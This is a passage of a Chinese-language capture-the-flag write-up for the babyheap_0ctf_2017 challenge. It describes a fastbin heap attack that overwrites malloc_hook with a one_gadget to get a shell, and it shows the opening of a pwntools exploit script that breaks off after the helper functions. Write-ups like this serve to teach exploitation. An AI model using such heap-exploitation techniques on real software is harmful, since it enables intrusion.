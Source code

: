 ⑨将chunk5 add回来，再add一次0x60大小的chunk，就能获得一块首地址为malloc_hook-0x23的chunk6   
add一次之后，bins长这样  
![](babyheap2.png)  
add两次之后长这样  
![](babyheap3.png)  
但是现在在heap里看不到最后一个chunk6，因为不相邻  
⑩edit chunk6，因为首地址是malloc_hook-0x23，减去chunk头，距离malloc_hook还有0x13，填充0x13个a，就能改写malloc_hook指向的值，将其改为one_gadget   
⑪随便add一下，调用calloc函数，就能调用malloc_hook，getshell  
## 为什么？  
问:为什么要将chunk2的size恢复？  
答:fastbin有检查，chunk_size必须与相应的fastbin_index匹配  
问:为什么是0x60大小的chunk？为什么是malloc_hook-0x23？
答:我不知道，记住就vans啦  
## exp   
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
import sys
#context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './babyheap_0ctf_2017' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("node3.buuoj.cn",28999)
elf=ELF(binary)
libc=elf.libc
def add(size):
    p.recvuntil("Command: ")
    p.sendline("1")
    p.recvuntil("Size: ")
    p.sendline(str(size))
def edit(index,size,content):
    p.recvuntil("Command: ")
    p.sendline("2")
    p.recvuntil("Index: ")
    p.sendline(str(index))
    p.recvuntil("Size: ")
    p.sendline(str(size))
    p.recvuntil("Content: ")
    p.sendline(str(content))
def delete(index):
    p.recvuntil("Command: ")
    p.sendline("3")
    p.recvuntil("Index: ")
    p.sendline(str(index))
def show(index):
    p.recvuntil("Command: ")
    p.sendline("4")
    p.recvuntil("Index: ")
    p.sendline(str(index))

def exp():
    add(0x90) # 0
    add(0x90) # 1
    add(0x90) # 2
    add(0x90) # 3
```